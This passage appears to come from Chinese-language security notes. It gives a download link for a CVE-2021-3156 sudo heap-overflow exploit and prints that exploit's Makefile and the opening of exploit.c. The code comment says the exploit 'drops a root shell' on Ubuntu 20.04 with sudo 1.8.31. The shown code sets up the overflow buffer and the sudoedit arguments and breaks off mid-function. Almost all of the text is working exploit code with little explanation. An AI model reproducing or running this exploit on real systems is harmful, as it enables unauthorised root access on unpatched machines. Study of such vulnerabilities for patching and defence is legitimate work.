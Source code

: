 
## EXP-2
下载地址：[https://github.com/Rvn0xsy/CVE-2021-3156-plus](https://github.com/Rvn0xsy/CVE-2021-3156-plus)

![image-20211105103424904.png](_img/assets/1659510297372-9ad6376e-9816-46a3-be88-4a7be620b1f2.png)
Makefile
```
all: shellcode exploit

shellcode: shellcode.c
mkdir libnss_x
$(CC) -O3 -shared -nostdlib -o libnss_x/x.so.2 shellcode.c

exploit: exploit.c
$(CC) -O3 -w -o exploit exploit.c

clean:
	rm -rf libnss_x exploit
```

exploit.c
```c
#include <unistd.h> // execve()
#include <string.h> // strcat()
#include <stdio.h>

/* Exploit for CVE-2021-3156, drops a root shell.
 * All credit for original research: Qualys Research Team.
 * https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit
 *
 * Tested on Ubuntu 20.04 against sudo 1.8.31
 * Author: Max Kamper
 */



int main(int argc, char * argv[]) {

    if(argc < 2){
	printf("Usage: %s <Command> \n",argv[0]);
	printf("[+]Refrence : @Qualys Research Team @Max Kamper \n");
	printf("[+]Modify by Rvn0xsy@ https://payloads.online\n");	
	return 0;
    }
    char * input_command = argv[1];
    int nSize = strlen(input_command)+6;
    
    char * command = malloc(nSize);
    memset(command,0x00,nSize);
    sprintf(command,"test\n\n%s\n",input_command);
    // 'buf' size determines size of overflowing chunk.
    // This will allocate an 0xf0-sized chunk before the target service_user struct.
    int i;
    char buf[0xf0] = {0};
    memset(buf, 'Y', 0xe0);
    strcat(buf, "\\");

    char* sudoedit_argv[] = {
        "sudoedit",
	    "-S",
        "-s",
        buf,
        NULL};
```